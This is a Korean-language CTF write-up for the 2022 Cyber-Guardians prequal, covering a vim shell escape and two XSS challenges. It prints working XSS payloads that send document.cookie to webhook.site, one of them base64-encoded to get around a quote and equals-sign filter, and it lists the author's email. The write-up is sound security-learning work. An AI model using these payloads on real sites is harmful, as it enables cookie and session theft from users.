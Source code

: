# 2022 Cyber-Guardians CTF Prequal

## Dreamhack Profile
Nickname: suk-6

email: wsuk.nam@gmail.com

## Solve list
A - Sanity Check!

I - xss-1.0

J - xss-1.3

### Sanity Check!
Netcat으로 원격 서버에 접속하였더니 vim 편집창이 나온다.

vim 편집기에서 !를 붙이고 Shell 명령어를 작성하면 실행되는 기능을 활용하여 루트 디렉토리의 파일을 조회하고 head 명령어로 flag 파일을 불러왔다.

### xss-1.0
로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

flag 페이지에서 로컬 Chrome을 컨트롤 할 수 있는데 `location.href`를 이용하여 webhook.site로 리다이렉트 시켰다.

이 때 `document.cookie`를 이용하여 브라우저의 쿠키를 URI에 담아서 보냈다.

```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

### xss-1.3
xss-1.0과 같이 로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

다만, `'`, `"`, `=`를 필터링하고 있다.

그러므로 xss-1.0에서 사용한 코드를 base64 인코딩 하여 필터링을 우회하고, Flask를 지나 크롬에서 로딩 될 때 디코딩되어 작동되도록 작성하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```